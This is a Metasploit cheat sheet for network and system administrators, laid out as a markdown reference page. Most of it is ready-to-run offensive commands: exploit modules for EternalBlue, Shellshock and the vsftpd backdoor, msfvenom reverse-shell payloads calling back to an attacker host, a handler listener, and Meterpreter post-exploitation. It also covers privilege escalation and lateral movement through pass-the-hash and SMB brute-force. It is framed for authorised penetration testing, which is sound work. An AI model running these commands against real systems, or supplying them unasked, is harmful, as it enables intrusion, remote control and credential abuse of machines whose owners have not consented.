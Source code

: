 # Metasploit cheat sheet for netadmins/sysadmins

A powerful framework for penetration testing, exploit development, and vulnerability validation—essential for security professionals and sysadmins to assess defenses, simulate attacks, and validate patches.

This cheat sheet covers:

✔ **Exploit selection & execution**\
✔ **Payload generation & delivery**\
✔ **Post-exploitation techniques**\
✔ **Automation & evasion tactics**

## **Metasploit Cheat Sheet**

_Exploitation, Post-Exploitation, and Evasion_

***

### **1. Getting Started**

#### **Launch Metasploit**

bash

```
msfconsole   # Start the framework  
msfdb init   # Initialize database (first run)  
msfdb start  # Start PostgreSQL service  
```

#### **Basic Commands**

bash

```
help          # Show all commands  
search [term] # Find modules (exploits, payloads)  
use [module]  # Select a module  
info          # Show module details  
show options  # Display configurable settings  
```

***

### **2. Exploitation**

#### **Select & Configure an Exploit**

bash

```
use exploit/unix/ftp/vsftpd_234_backdoor  
set RHOSTS 10.0.0.5  
set RPORT 21  
exploit       # Run the exploit  
```

#### **Common Exploits**

bash

```
use exploit/multi/handler                # Generic payload handler  
use exploit/windows/smb/ms17_010_eternalblue  # EternalBlue (WannaCry)  
use exploit/linux/http/apache_mod_cgi_bash  # Shellshock  
```

#### **Set Payload**

bash

```
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST [Your_IP]  # Attacker's IP  
set LPORT 4444       # Listener port  
```

***

### **3. Payloads & Listeners**

#### **Generate Standalone Payloads**

bash

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > payload.exe  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf > payload.elf  
```

#### **Start a Listener**

bash

```
use exploit/multi/handler  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST 10.0.0.1  
set LPORT 4444  
run  
```

***

### **4. Post-Exploitation**

#### **Meterpreter Basics**

bash

```
sysinfo          # Target system info  
getuid           # Current privilege level  
ps               # List running processes  
migrate [PID]    # Move to another process  
shell            # Drop into OS shell  
```

#### **Privilege Escalation**

bash

```
getsystem        # Attempt auto-privesc (Windows)  
use post/multi/recon/local_exploit_suggester  # Find local exploits  
```

#### **Lateral Movement**

bash

```
use exploit/windows/smb/psexec  # Pass-the-hash  
use auxiliary/scanner/smb/smb_login  # Brute-force SMB  
```

***

### **5. Automation & Reporting**

#### **Resource Scripts**

bash

```
msfconsole -r /path/to/script.rc  # Run pre-configured commands  
```

#### **Generate Reports**

bash

```
db_export -f xml /path/to/report.xml  # Export findings  
```

***

### **Quick Reference Table**

| **Command**               | **Description**                        |
| ------------------------- | -------------------------------------- |
| `search cve:2023`         | Find exploits by CVE year              |
| `setg RHOSTS 10.0.0.0/24` | Set global target range                |
| `sessions -l`             | List active sessions                   |
| `sessions -i [ID]`        | Interact with a session                |
| `background`              | Send Meterpreter session to background |

***

**Pro Tips:**\
✔ Use `check` to test if a target is vulnerable before exploitation.\
✔ Combine with `Nmap`/`OpenVAS` for reconnaissance.\
✔ Always operate within **legal boundaries**—get permission!

**Learn More:**

* `man msfconsole`
* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
